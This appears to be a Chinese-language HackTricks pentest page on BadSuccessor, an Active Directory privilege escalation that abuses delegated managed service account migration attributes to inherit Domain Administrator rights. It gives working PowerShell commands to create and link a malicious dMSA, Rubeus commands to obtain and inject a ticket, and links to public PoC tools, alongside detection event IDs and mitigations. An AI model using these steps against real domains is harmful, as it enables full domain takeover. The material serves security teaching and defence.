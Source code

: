 # BadSuccessor: 通过委托的MSA迁移滥用进行特权升级

{{#include ../../banners/hacktricks-training.md}}

## 概述

委托的托管服务账户（**dMSA**）是**gMSA**的下一代继任者，随Windows Server 2025发布。合法的迁移工作流程允许管理员用dMSA替换*旧*账户（用户、计算机或服务账户），同时透明地保留权限。该工作流程通过PowerShell cmdlets暴露，如`Start-ADServiceAccountMigration`和`Complete-ADServiceAccountMigration`，并依赖于**dMSA对象**的两个LDAP属性：

* **`msDS-ManagedAccountPrecededByLink`** – *DN链接*到被取代的（旧）账户。
* **`msDS-DelegatedMSAState`**       – 迁移状态（`0` = 无，`1` = 进行中，`2` = *已完成*）。

如果攻击者可以在OU中创建**任何**dMSA并直接操纵这两个属性，LSASS和KDC将把dMSA视为链接账户的*继任者*。当攻击者随后以dMSA身份进行身份验证时，**他们继承了链接账户的所有权限**——如果管理员账户被链接，则最高可达**域管理员**。

该技术在2025年被Unit 42称为**BadSuccessor**。在撰写时**没有安全补丁**可用；只有加强OU权限可以缓解此问题。

### 攻击前提条件

1. 一个*被允许*在**组织单位（OU）**内创建对象的账户*并且*至少具有以下之一：
* `Create Child` → **`msDS-DelegatedManagedServiceAccount`**对象类
* `Create Child` → **`All Objects`**（通用创建）
2. 与LDAP和Kerberos的网络连接（标准域加入场景/远程攻击）。

## 枚举易受攻击的OU

Unit 42发布了一个PowerShell辅助脚本，解析每个OU的安全描述符并突出显示所需的ACE：
```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```
在后台，脚本运行一个分页的 LDAP 搜索 `(objectClass=organizationalUnit)` 并检查每个 `nTSecurityDescriptor` 是否具有

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (对象类 *msDS-DelegatedManagedServiceAccount*)

## 利用步骤

一旦识别出可写的 OU，攻击只需 3 次 LDAP 写入：
```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
-DNSHostName host.contoso.local \
-Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
@{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```
在复制后，攻击者可以简单地 **logon** 为 `attacker_dMSA$` 或请求 Kerberos TGT – Windows 将构建 *superseded* 账户的令牌。

### 自动化

几个公共 PoC 包装了整个工作流程，包括密码检索和票证管理：

* SharpSuccessor (C#) – [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
* BadSuccessor.ps1 (PowerShell) – [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* NetExec 模块 – `badsuccessor` (Python) – [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### 后期利用
```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```
## 检测与狩猎

在组织单位（OUs）上启用**对象审计**，并监控以下Windows安全事件：

* **5137** – 创建**dMSA**对象
* **5136** – 修改**`msDS-ManagedAccountPrecededByLink`**
* **4662** – 特定属性更改
* GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
* GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – dMSA的TGT签发

关联`4662`（属性修改）、`4741`（计算机/服务账户创建）和`4624`（后续登录）可以快速突出BadSuccessor活动。像**XSIAM**这样的XDR解决方案提供现成的查询（见参考文献）。

## 缓解措施

* 应用**最小权限**原则 – 仅将*服务账户*管理委派给受信任的角色。
* 从不明确需要的OUs中移除`Create Child` / `msDS-DelegatedManagedServiceAccount`。
* 监控上述事件ID，并对*非Tier-0*身份创建或编辑dMSA进行警报。

## 另见

{{#ref}}
golden-dmsa-gmsa.md
{{#endref}}

## 参考文献

- [Unit42 – 当好账户变坏：利用委派的托管服务账户](https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/)
- [SharpSuccessor PoC](https://github.com/logangoins/SharpSuccessor)
- [BadSuccessor.ps1 – 渗透测试工具集合](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
- [NetExec BadSuccessor模块](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py)

{{#include ../../banners/hacktricks-training.md}}
